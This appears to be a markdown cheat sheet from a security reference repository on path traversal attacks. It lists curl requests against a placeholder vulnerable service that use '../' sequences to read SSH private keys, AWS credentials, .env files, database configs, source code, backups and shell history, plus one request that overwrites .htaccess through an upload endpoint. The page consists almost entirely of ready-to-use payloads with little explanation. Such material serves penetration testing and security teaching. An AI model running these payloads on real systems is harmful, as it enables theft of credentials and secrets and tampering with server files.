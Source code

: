# Path Traversal

## Table of Contents
- [Information Disclosure](#information-disclosure)
- [Arbitrary File Modification](#arbitrary-file-modification)

## Information Disclosure

### Credentials used for remote access can be exposed.

- SSH key file exposure [^1]
   ```bash
   curl https://[VULNERABLE-SERVICE]/read?filename=../../../../home/user/.ssh/id_rsa
   ```

- AWS credential exposure
   ```bash
   curl https://[VULNERABLE-SERVICE]/read?filename=../../../../home/user/.aws/credentials
   ```
  
### Sensitive information used in project can be exposed.

- Hard-coded secret information exposure
   ```bash
   curl https://[VULNERABLE-SERVICE]/read?filename=../../../../config/db_config.php
   ```

- Source code exposure
   ```bash
   curl https://[VULNERABLE-SERVICE]/read?filename=../../../../var/www/html/index.php
   ```

- Application’s environment variable information exposure
   ```bash
   curl https://[VULNERABLE-SERVICE]/read?filename=../../../../.env
   ```

- Backup file exposure
   ```bash
   curl https://[VULNERABLE-SERVICE]/read?filename=../../../../backup/backup.zip
   ```

- Environment variable exposure
   ```bash
   curl https://[VULNERABLE-SERVICE]/read?filename=../../../../home/user/.bashrc
   ```

- Command history exposure
   ```bash
   curl https://[VULNERABLE-SERVICE]/read?filename=../../../../home/user/.bash_history
   ```

## Arbitrary File Modification

### Key files can be overwritten or deleted.

- Overwrite .htaccess file
   ```bash
   curl https://[VULNERABLE-SERVICE]/upload?filename=../../../../.htaccess
   ```

[^1]: Path to the user's home directory can be found in /etc/passwd.